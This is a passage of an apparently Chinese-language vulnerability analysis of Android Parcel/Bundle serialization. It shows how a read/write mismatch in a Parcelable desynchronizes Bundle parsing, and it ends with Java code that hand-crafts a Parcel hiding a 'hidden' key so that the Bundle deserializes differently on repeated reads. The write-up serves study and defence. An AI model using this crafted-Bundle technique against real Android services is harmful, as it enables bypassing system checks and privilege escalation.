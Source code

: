 数据数组大小等于0的情况非常罕见。但即使发生这种情况，如果一次只传输一个序列化对象（在我们的示例中是Demo对象），程序也会继续运行。因此，这些错误往往会被忽视。

现在我们将尝试在Bundle中放置一个数组长度为零的Demo对象：

```java
Bundle bundle = new Bundle();
bundle.putParcelable("0", new Demo());
bundle.putInt("Int", 1);
```

![image-20230123120647942](/images/android_serialization_and_deserialization_vulnerability_analysis/image-20230123120647942.png)

让我们查看一下序列化数据的结果

![bundle_serialization.drawio](/images/android_serialization_and_deserialization_vulnerability_analysis/bundle_serialization.drawio.png)

现在让我们反序列化这个对象

```java
Parcel newParcel = Parcel.obtain();
newParcel.writeBundle(bundle);
newParcel.setDataPosition(0);
Bundle testBundle = new Bundle(this.getClass().getClassLoader());
testBundle.readFromParcel(newParcel);
testBundle.keySet();
```

![image-20230127104758654](/images/android_serialization_and_deserialization_vulnerability_analysis/image-20230127104758654.png)

当运行到`testBundle.keySet()`时就会报错，让我们来看一下问题出现的原因

![image-20230127111308809](/images/android_serialization_and_deserialization_vulnerability_analysis/image-20230127111308809.png)

在上面两张图中，我们看到在反序列化期间，`createFromParcel`方法中读取了一个int，而不是两个int。因此，Bundle中的所有后续值都被错误读取。0x49处的0x0值被读取为下一个key的长度。0x4C处的0x3值作为密钥读取。0x50处的0x006E0049值被读取为值类型。Parcel没有该类型的值，因此`readFromParcel()`报告了异常。

那么我们怎么进一步利用这个问题呢？让我们看看！Parcelable系统类中的上述错误允许创建在第一次和重复反序列化期间可能不同的Bundle。为了证明这一点，我们将修改前面的示例：

```java
Parcel data = Parcel.obtain();
data.writeInt(3); // 3 个键值对
data.writeString("vuln_class");
data.writeInt(4); // value is Parcelable
data.writeString("com.ecool.demo.Demo");
data.writeInt(0); // data.length
data.writeInt(1); // key length -> key value
data.writeInt(6); // key value -> value is long
data.writeInt(0xD); // 值类型为 bytearray -> low(long)
data.writeInt(-1); // 假 byteArray 长度 -> high(long)
int startPos = data.dataPosition();
data.writeString("hidden"); // bytearray data -> hidden key
data.writeInt(0); // value is string
data.writeString("Hi there"); // hidden value
int endPos = data.dataPosition();
int triggerLen = endPos - startPos;
data.setDataPosition(startPos - 4);
data.writeInt(triggerLen); // overwrite dummy value with the real value
data.setDataPosition(endPos);
data.writeString("A padding");
data.writeInt(0); // value is string
data.writeString("to match pair count");
int length = data.dataSize();
Parcel bndl = Parcel.obtain();
bndl.writeInt(length);
bndl.writeInt(0x4C444E42); // bundle magic
bndl.appendFrom(data, 0, length);
bndl.setDataPosition(0);
```
